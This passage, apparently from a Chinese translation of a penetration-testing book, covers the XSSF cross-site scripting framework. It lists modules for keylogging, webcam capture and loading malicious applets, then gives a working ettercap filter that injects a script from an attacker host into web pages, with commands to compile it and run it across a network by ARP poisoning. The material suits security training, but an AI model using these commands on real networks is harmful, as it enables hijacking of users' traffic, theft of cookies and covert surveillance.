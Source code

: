 `run`命令的执行如下图所示：

![The Cross-Site Scripting Framework](img/3121OS_11_13.jpg)

当攻击完成后，可以通过查看 XSSF 日志页面上的结果或使用命令直接从命令行找到 cookie，如以下屏幕截图所示：

![The Cross-Site Scripting Framework](img/3121OS_11_14.jpg)

`auxiliary/xssf/public/misc`中的一些其他有用命令包括：

*   `check_connected`：此命令检查受害者是否打开了任何社交网站（Gmail、Facebook 或 Twitter）
*   `csrf`：发起跨站点请求伪造攻击
*   `keylogger`：此命令调用客户端的键盘记录器
*   `load_applet`和`load_pdf`：这些命令在客户端加载恶意 Java 小程序和 PDF 文件，并调用它们来启动预配置的恶意软件
*   `redirect`：它将客户端重定向到指定的网页
*   `webcam_capture`：此命令从客户端的网络摄像头捕获图像

这是一个不完整的列表，但它显示了该工具的利用程度。此外，还有一些模块用于网络扫描和发起拒绝服务攻击，还有一些模块用于确保攻击完成后的持久性。

XSSF 还可以与 ettercap 一起使用，以破坏内部网络。例如，通过在名为`attack`的过滤器中放置以下代码，可以使用 TTERCAP 将`</head>`数据替换为指向恶意页面的链接：

```
if (ip.proto == TCP && tcp.src == 80) {
  if (search(DATA.data, "</head>")) {
    replace("</head>", "</head><script src=\"http://192.168.43.130:8888/test.html\"></script> ");
  }
}
```

然后，必须使用以下命令将筛选器脚本转换为二进制文件：

```
 etterfilter attack.filter –o attack.ef

```

要对网络上的所有用户发起此攻击，请使用以下命令执行`ettercap`：

```
 ettercap –T –q –F attack.ef –M ARP // //

```
